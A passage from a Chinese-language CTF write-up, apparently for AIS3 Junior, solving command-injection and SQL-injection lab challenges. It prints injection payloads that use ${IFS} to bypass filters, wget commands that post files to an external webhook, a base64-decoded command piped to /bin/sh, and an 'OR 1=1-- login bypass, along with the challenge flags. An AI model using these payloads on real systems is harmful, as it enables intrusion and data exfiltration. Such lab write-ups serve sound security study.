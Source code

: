 ### Step2：
利用wget傳送檔案的值至webhook```|wget${IFS}--post-file=cool.txt${IFS}https://webhook.site/87f7ee46-d0bc-42b1-bbf9-1d2f8d0ca56e```
![image](https://hackmd.io/_uploads/rkuptkkoC.png)
### Step3：
看到ERRORCMDi_FLAG檔案，將他編碼並存起```|base64${IFS}ERRORCMDi_FLAG>cool```
![image](https://hackmd.io/_uploads/HyHX5JkiC.png)
### Step4：
將其傳送至webhook並解碼即可獲得FLAG：  
我安裝了d3coder所以看起來才是明碼
### FLAG:AIS3_Junior{E${IFS}RRORB3sed\|\$(CMDi)Succ3ss:DD}
![image](https://hackmd.io/_uploads/H1et5JysR.png)
![image](https://hackmd.io/_uploads/r1w2c1kiC.png)

### CMD05
### Step1：
步驟與上題一致
```shell=
|echo${IFS}bHM=|base64${IFS}-d|/bin/sh>cool.txt
|wget${IFS}--post-file=cool.txt${IFS}https://webhook.site/87f7ee46-d0bc-42b1-bbf9-1d2f8d0ca56e
|base64${IFS}BLindCMDiFLAG>cool
|wget${IFS}--post-file=cool${IFS}https://webhook.site/87f7ee46-d0bc-42b1-bbf9-1d2f8d0ca56e
```
### FLAG:AIS3_Junior{BROJust\|curl%20-d%20$(l3akTheDATAT0outSideXDD)}
![image](https://hackmd.io/_uploads/SJ-uf1yo0.png)
![image](https://hackmd.io/_uploads/ryzczJkoR.png)

### CMD06
### Step1：
試了很多次發現```localhost|grep${IFS}-r${IFS}AIS3```可以獲得FLAG
### FLAG：FLAG:AIS3_Junior{ouo_hihi}
![image](https://hackmd.io/_uploads/HkcNn0A9C.png)
![image](https://hackmd.io/_uploads/Bk8Hh0Cc0.png)

## 06-SQL_Injection
### SQL01
### Step1:
看到是SQL，登入，我憑直覺直接在帳號輸入admin，密碼'OR 1=1--，直接獲得FLAG。
### FLAG：AIS3_Junior{SQL'InjectionXDorD=D_--_-}
![image](https://hackmd.io/_uploads/Syg62yki0.png)
![image](https://hackmd.io/_uploads/Hyna211jC.png)
